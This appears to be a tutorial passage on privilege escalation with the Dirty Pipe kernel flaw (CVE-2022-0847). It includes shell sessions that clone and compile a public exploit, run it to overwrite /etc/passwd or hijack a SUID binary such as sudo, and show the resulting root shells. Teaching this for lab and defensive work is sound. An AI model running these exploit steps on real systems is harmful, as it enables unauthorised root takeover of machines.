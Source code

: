 A vulnerability in the Linux kernel, named [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux. 
 * Technically, the vulnerability is similar to the [Dirty Cow](https://dirtycow.ninja/) vulnerability discovered in 2016. 
 * All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.

In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. 
* It is also interesting to note that Android phones are also affected. 
* Android apps run with user rights, so a malicious or compromised app could take over the phone.

This vulnerability is based on pipes. 
* pipes are a mechanism of unidirectional communication between processes that are particularly popular on Unix systems. 
* For example, we could edit the `/etc/passwd` file and remove the password prompt for the root. 
* This would allow us to log in with the `su` command without the password prompt.

To exploit this vulnerability, we need to download a [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) and compile it on the target system itself or a copy we have made.

#### Download Dirty Pipe Exploit
```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

After compiling the code, we have two different exploits available. The first exploit version (`exploit-1`) modifies the `/etc/passwd` and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit.

```shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

#### Exploitation #1

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

With the help of the 2nd exploit version (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:

#### Find SUID Binaries

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

#### Exploitation #2

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```
